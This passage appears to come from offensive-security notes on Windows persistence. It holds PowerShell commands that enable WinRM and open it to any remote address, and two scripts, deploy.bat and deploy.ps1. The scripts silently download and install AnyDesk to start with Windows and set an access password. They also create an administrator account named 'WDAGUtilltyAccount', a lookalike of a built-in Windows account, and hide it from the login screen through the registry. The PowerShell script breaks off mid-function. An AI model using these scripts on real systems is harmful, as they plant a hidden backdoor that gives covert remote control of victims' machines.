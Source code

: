 ```
PS C:\> Enable-PSRemoting -Force

PS C:\> Get-NetFirewallRule -Name 'WINRM*' | Select-Object Name

PS C:\> Set-NetFirewallRule -Name 'WINRM-HTTP-In-TCP' -RemoteAddress Any 

PS C:\> Test-WSMan
```

Refer to [[WinRM Lateral Movement]] section to login

## 06 - Third-Party Programs

### 6.1 - AnyDesk

#### 6.1.1 - Automation

`$ cat deploy.bat`

---

```
mkdir %appdata%\appdata\local\AnyDesk
curl.exe -o %appdata%\appdata\local\temp\Anydesk.exe https://download.anydesk.com/AnyDesk.exe
%appdata%\appdata\local\temp\anydesk.exe --install %appdata%\appdata\local\AnyDesk --start-with-win --slient
del %appdata%\appdata\local\temp\anydesk.exe
echo <password> | %appdata%\appdata\local\AnyDesk\AnyDesk.exe --set-password
net user WDAGUtilltyAccount <password> /add
net localgroup Administrators WDAGUtilltyAccount /add
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v WDAGUtilltyAccount /t REG_DWORD /d 0 /f
for /f "delims=" %i in ('%appdata%\AppData\Local\AnyDesk\AnyDesk.exe --get-id') do echo %i
```

`$ cat deploy.ps1`

---

```powershell
function AnyDesk {
    $anydesk_folder = "C:\ProgramData\AnyDesk"
    mkdir $anydesk_folder
    $web = New-Object Net.WebClient
    $url = "https://download.anydesk.com/AnyDesk.exe"
    $file = "C:\ProgramData\AnyDesk.exe"
    $web.DownloadFile($url, $file)
    
    $username = "WDAGUtilltyAccount"
    $password = ConvertTo-SecureString "<password>" -AsPlainText -Force
    $password_cmd = "<password>"

    # cmd.exe /c $file --install $anydesk_folder --start-with-win --silent

    # cmd.exe /c echo $password_cmd | $file --set-password

    # net user $username $password_cmd /add
    # net localgroup Administrators $username /add
    # reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v WDAGUtilltyAccount /t REG_DWORD /d 0 /f

    # cmd.exe /c $path --get-id

    Start-Process -FilePath $file -NoNewWindow -Credential $credential -ArgumentList("--install", $anydesk_folder, "--start-with-win", "--slient")
```